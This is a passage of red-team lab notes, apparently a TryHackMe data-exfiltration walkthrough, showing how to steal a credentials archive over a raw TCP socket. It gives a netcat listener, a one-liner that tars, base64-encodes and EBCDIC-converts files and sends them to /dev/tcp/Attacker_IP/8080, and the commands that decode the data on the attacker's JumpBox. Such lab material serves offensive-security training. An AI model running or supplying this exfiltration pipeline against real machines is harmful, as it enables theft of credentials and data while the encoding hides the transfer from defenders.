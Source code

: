* Communication over TCP requires two machines, one victim and one attacker machine, to transfer data.

#### On Attacker_Machine/JumpBox

we need to prepare a listener

`nc -lvp 8080 > /tmp/task4-creds.data`

#### On Victim_Machine

`ssh thm@victim1.thm.com` already compromise ssh connection

We have the required data ready to be transmitted on the victim machine. In this case, we have a sample file with a couple of credentials.

![App Screenshot](https://github.com/rohit00712/Red-Team/blob/main/Post%20Compromise/data_Exfiltration/images/7.PNG)

Now that we have the credential text file, we will use the TCP socket to exfiltrate it. **Make sure the listener is running on the JumpBox/Attacker_Machine.**

`tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/Attacker_IP/8080`

**Note that we used the Base64 and EBCDIC encoding to protect the data during the exfiltration.**

#### On Attacker_Machine/JumpBox

we should receive the encoded data in the /tmp/ directory.

![App Screenshot](https://github.com/rohit00712/Red-Team/blob/main/Post%20Compromise/data_Exfiltration/images/8.PNG)

On the JumpBox, we need to convert the received data back to its original status. We will be using the dd tool to convert it back.

`dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar`

![App Screenshot](https://github.com/rohit00712/Red-Team/blob/main/Post%20Compromise/data_Exfiltration/images/9.PNG)
